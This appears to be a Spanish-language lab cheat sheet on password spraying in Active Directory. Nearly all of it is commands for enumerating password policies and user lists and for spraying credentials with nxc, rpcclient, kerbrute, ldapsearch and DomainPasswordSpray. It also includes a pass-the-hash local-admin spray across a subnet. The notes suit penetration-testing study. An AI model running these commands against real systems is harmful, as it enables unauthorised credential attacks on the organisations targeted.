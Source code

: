 #passwordSpraying
## Linux
### Enumerar política de contraseñas

- **`nxc` (SMB - 445):**
	```bash
	# Requiere credenciales
	nxc smb $target -u 'username' -p 'password!' --pass-pol
	```

- **`rpcclient` (SMB - 445, 139):**
	```bash
	rpcclient -U 'username%password' $target
	# o null session
	rpcclient -U "" -N $target
	# Una vez dentro, podemos obtener informacíon básica del dominio con
	rpcclient $> querydominfo
	# Obtener política de contraseñas
	rpcclient $> getdompwinfo
	```

- **`enum4linux` (SMB - 445, 139):**
	```bash
	enum4linux -P $target
	```
`-P` : password police
- **enum4linux-ng (SMB - 445, 139):**
	```bash
	# Con credenciales
	enum4linux-ng -P $target -u 'username' -p 'password!' -oA ilfreight
	# Null session
	enum4linux-ng -P $target -oA ilfreight
	```

- **ldapsearch (LDAP - 389, 636):**
	```bash
	# Con credenciales
	ldapsearch -h $target -D "CN=username,DC=INLANEFREIGHT,DC=LOCAL" -w 'password' -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
	# Anonymous bind
	ldapsearch -h $target -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
	```

### Crear User List

- **`enum4linux` (SMB - 445, 139):**
	```bash
	# Sin credenciales
	enum4linux -U $target | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
	# Con credenciales
	enum4linux -U -u <user> -p <pass> $target | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
	```

- **`rpcclient`:**
	```bash
	# sin credenciales
	rpcclient -U "" -N 172.16.5.5
	# Con credenciales
	rpcclient -U "username" 172.16.5.5
	# Una vez en sesión
	rpcclient $> enumdomusers
	```

- **`nxc` SMB ( `--users`):**
	```bash
	nxc smb $target -u <username> -p <password> --users
	```
	La flag `--users` nos indica el número de intentos fallidos y fecha de último intento fallido
- **`ldapsearch` ( Anonymous Bind):**
	```bash
	ldapsearch -h $target -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
	```

- **`windapsearch`:**
	```bash
	./windapsearch.py --dc-ip $target -u "" -U
	```

- **`Kerbrute`:**
	```bash
	kerbrute userenum -d inlanefreight.local --dc $target /opt/jsmith.txt
	```

### Ejecutar Password Spraying
- **One-liner bash (SMB - 445, 139):**
	```bash
	for u in $(cat valid_users.txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" $target | grep Authority; done
	```

- **Kerbrute (Kerberos - 88):**
	```bash
	kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
	```

- **nxc (SMB):**
	```bash
	sudo nxc smb $target -u valid_users.txt -p Password123 | grep +
	```

- **Local Admin Spraying:**
	```bash
	sudo nxc smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
	```
	
## Windows
### Enumerar política de contraseñas
- **Null Sessions (net use - 445, 139):**
	El siguiente comando muestra si acepta null sessions
	```
	net use \\DC01\ipc$ "" /u:""
	```
- **net.exe:**
	```powershell
	net accounts
	```
	Si  obtenemos el siguiente valor `Lockout threshold: Never` significa que podemos ejecutar fuerza bruta sin problema. 

- **Powerview:**
	```powershell
	import-module .\PowerView.ps1
	Get-DomainPolicy
	```

### Ejecutar Password Spraying
- **DomainPasswordSpray (Windows AD):**
	```powershell
	Import-Module .\DomainPasswordSpray.ps1
	Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
	```
